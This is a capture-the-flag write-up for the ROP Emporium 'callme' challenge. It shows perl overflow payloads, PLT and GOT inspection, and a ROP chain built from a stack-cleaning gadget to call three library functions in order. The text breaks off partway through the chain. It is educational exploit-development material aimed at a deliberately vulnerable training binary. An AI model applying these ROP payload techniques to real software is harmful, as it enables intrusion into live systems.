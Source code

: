 # callme
The challenge is available [here](https://ropemporium.com/challenge/callme.html).

## Black-Box Test
Let's start as usual with an initial check of the program's behavior.

```
./callme32
```
![](./0.png)

In this challenge as well, the return address is located at the same index.

```
perl -e 'print "A"x44 . "\xef\xbe\xad\xde"' | ./callme32
```
![](./1.png)
```
sudo dmesg -k | tail -2
```
![](./2.png)

Before we start exploring in more depth, let's check what the maximum input size we can enter is.

```
ltrace ./callme32
```
![](./3.png)

By entering simple input (in this case, `ABCD`) while running the program with `ltrace`, we discovered that the maximum input size we can enter is `512` bytes.

## In-depth research
It's time to note that the solution I am writing assumes that anyone reading it has already read the challenge instructions. So if any process seems strange, please refer to the instructions! :)

The goal of the challenge is to run `callme_one(0xdeadbeaf, 0xcafebabe, 0xd00df00d)`, `callme_two(0xdeadbeaf, 0xcafebabe, 0xd00df00d)`, and `callme_three(0xdeadbeaf, 0xcafebabe, 0xd00df00d)` in that order.

These functions will be imported from an external library, so during the symbol linking process, the `PLT` is involved.

Let's keep these points in mind and continue with the research we're already familiar with. First, we'll discover the functions that are written in the binary itself. (The NX protection exists in all of these challenges, and from now on, I won't mention it again)

```
rabin2 -qs callme32 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./4.png)

We have a helper function called `usefulFunction`, just like in the previous challenge. We'll look at it later. For now, let's search for our three target functions. We can look for them in two places. The first is the `PLT`.

```
rabin2 -i callme32
```
![](./5.png)

The second is the `GOT.PLT` (again, I emphasize that anyone who hasn't read the challenge instructions should do so to understand the linkage process).

```
rabin2 -R callme32
```
![](./6.png)

To be sure where the functions reside (in both senses mentioned above), we can look at the memory segments by ranges and see the correspondence.

```
readelf -S callme32
```
![](./7.png)

Now, let's take a look at the helper function `usefulFunction` and try to understand how it will assist us and how this relates to the `PLT`.

```
gdb callme32
```
```
set disassembly-flavor intel
```
```
disass usefulFunction
```
![](./8.png)

In the constructed ROP chain, a malicious return to the `usefulFunction` itself won't be beneficial, as it does contain calls to the target functions, but not in the correct order and without the right parameters. Therefore, a malicious return to the call-command for them won't help either, since the call will return to the continuation of execution within `usefulFunction`. Thus, when we call the target functions, we'll use the corresponding address in the `PLT` (highlighted with a green line). Let's take a look at the appropriate entries in the `PLT` table.

```
x/3i 0x080484f0
```
```
x/3i 0x08048550
```
```
x/3i 0x080484e0
```
![](./9.png)

The addresses highlighted with a green line represent the appropriate entries in the `PLT` table. The addresses highlighted with a yellow line indicate the locations where the actual function addresses are located.

If we now look at the `GOT.PLT` (that is, at the addresses highlighted in yellow), we'll find that they have not yet been resolved (which makes sense, as we haven't called them at all yet).

```
x/wx 0x0804a018
```
```
x/wx 0x0804a030
```
```
x/wx 0x0804a014
```
![](./10.png)

The keen-eyed will notice that up to this point, we have essentially reached a complete explanation for the output of the commands `rabin2 -i callme32` and `rabin2 -R callme32` that were executed earlier during the research. The addresses in green correspond to the `PLT` and the addresses in yellow correspond to the `GOT.PLT`.

Now, let's try to build a ROP chain that will call the first function. Since we won't be using the `call` command, we also need to ensure that there's a return address from the first function on the stack.

Thus, the order will be as follows (from the top of the stack and down): 
* 44 bytes of garbage:
    * `"X"`x44
* the address of `callme_one` function via the `PLT`:
    * `0x080484f0`
* some arbitrary return address (currently just garbage):
    * `"YYYY"`
* followed by the first, second, and third parameters:
    * `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`

So let's exit the debugger (with `q` command) and try the next ROP chain.

```
perl -e 'print "X"x44 . "\xf0\x84\x04\x08" . "YYYY" . "\xef\xbe\xad\xde" . "\xbe\xba\xfe\xca" . "\x0d\xf0\x0d\xd0" ' | ./callme32
```
![](./11.png)

```
sudo dmesg -k | tail -2
```
![](./12.png)

So, we've successfully executed the first function and verified that the return address to it is indeed in the place we thought (it fell at the end because `YYYY` isn't actually an address...). But now we're in trouble. How can we call the second function and pass it the parameters? If we replace `YYYY` with the address of the second function, we won't be able to pass it parameters without disrupting the parameters for the first function (a matter of stack positioning). 

To illustrate the problem, let's replace `YYYY` with the address of the function `callme_two` (`0x08048550` address) and run it.

```
perl -e 'print "X"x44 . "\xf0\x84\x04\x08" . "\x50\x85\x04\x08" . "\xef\xbe\xad\xde" . "\xbe\xba\xfe\xca" . "\x0d\xf0\x0d\xd0" ' | ./callme32
```
![](./13.png)

Therefore, what we really need to do is find a "gadget" that will clean the stack and perform a `ret`. This way, each function can "return to the gadget" that cleans the stack (which will increment the `SP` register by 12 bytes), allowing us to chain the function calls one after the other, so that the `ret` of the gadget will be what calls the next function.

To find the gadget, I used the tool [ropper](https://github.com/sashs/Ropper). This tool is also mentioned in the ROP_Emporium beginner's guide. In fact, this is the first time I've used it. After a bit of research, I found a suitable gadget.

```
python3 ~/ropper/Ropper.py 
```
```
file callme32
```
```
search /3/ pop %
```
![](./14.png)

The last gadget is perfect. Let's check if we can now chain calls to the two functions using the gadget. The structure will be as follows:
* 44 bytes of garbage:
    * `"X"`x44
* the address of `callme_one` function via the `PLT`:
    * `0x080484f0`
* the address of the gadget:
    * `0x080487f9`
* the three parameters
    * `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`

AND

* the address of `callme_two` function via the `PLT`:
    * `0x08048550`
* the address of the gadget:
    * `0x080487f9`
* the three parameters.
    * `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`

